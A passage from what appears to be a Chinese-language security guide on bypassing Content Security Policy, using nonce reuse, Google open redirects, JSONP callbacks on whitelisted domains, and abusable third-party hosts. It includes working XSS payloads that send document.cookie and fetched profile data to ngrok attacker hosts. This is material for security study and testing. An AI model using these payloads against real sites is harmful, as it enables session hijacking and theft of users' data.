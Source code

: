 ```html
a=doc.defaultView.top.document.querySelector("[nonce]");
b=doc.createElement("script");
b.src="//example.com/evil.js";
b.nonce=a.nonce; doc.body.appendChild(b)'>
```
#### 利用 www.google.com 进行开放重定向

以下 URL 重定向到 example.com（来自 [这里](https://www.landh.tech/blog/20240304-google-hack-50000/)）：
```
https://www.google.com/amp/s/example.com/
```
滥用 \*.google.com/script.google.com

可以滥用 Google Apps Script 在 script.google.com 内的页面接收信息。就像在[这份报告中](https://embracethered.com/blog/posts/2023/google-bard-data-exfiltration/)所做的那样。

### 第三方端点 + JSONP
```http
Content-Security-Policy: script-src 'self' https://www.google.com https://www.youtube.com; object-src 'none';
```
场景如 `script-src` 设置为 `self` 和特定的白名单域名，可以通过 JSONP 绕过。JSONP 端点允许不安全的回调方法，这使得攻击者能够执行 XSS，工作有效载荷：
```markup
"><script src="https://www.google.com/complete/search?client=chrome&q=hello&callback=alert#1"></script>
"><script src="/api/jsonp?callback=(function(){window.top.location.href=`http://f6a81b32f7f7.ngrok.io/cooookie`%2bdocument.cookie;})();//"></script>
```

```html
https://www.youtube.com/oembed?callback=alert;
<script src="https://www.youtube.com/oembed?url=http://www.youtube.com/watch?v=bDOYN-6gdRE&format=json&callback=fetch(`/profile`).then(function f1(r){return r.text()}).then(function f2(txt){location.href=`https://b520-49-245-33-142.ngrok.io?`+btoa(txt)})"></script>
```
[**JSONBee**](https://github.com/zigoo0/JSONBee) **包含可用于不同网站的CSP绕过的现成JSONP端点。**

如果**受信任的端点包含开放重定向**，则会发生相同的漏洞，因为如果初始端点是受信任的，则重定向也是受信任的。

### 第三方滥用

如[以下帖子](https://sensepost.com/blog/2023/dress-code-the-talk/#bypasses)所述，有许多第三方域名可能在CSP中被允许，可以被滥用以提取数据或执行JavaScript代码。这些第三方中的一些是：

| 实体              | 允许的域名                                 | 能力         |
| ----------------- | ------------------------------------------ | ------------ |
| Facebook          | www.facebook.com, \*.facebook.com          | 提取         |
| Hotjar            | \*.hotjar.com, ask.hotjar.io              | 提取         |
| Jsdelivr          | \*.jsdelivr.com, cdn.jsdelivr.net          | 执行         |
| Amazon CloudFront | \*.cloudfront.net                          | 提取, 执行   |
| Amazon AWS        | \*.amazonaws.com                           | 提取, 执行   |
| Azure Websites    | \*.azurewebsites.net, \*.azurestaticapps.net | 提取, 执行   |
| Salesforce Heroku | \*.herokuapp.com                           | 提取, 执行   |
| Google Firebase   | \*.firebaseapp.com                         | 提取, 执行   |
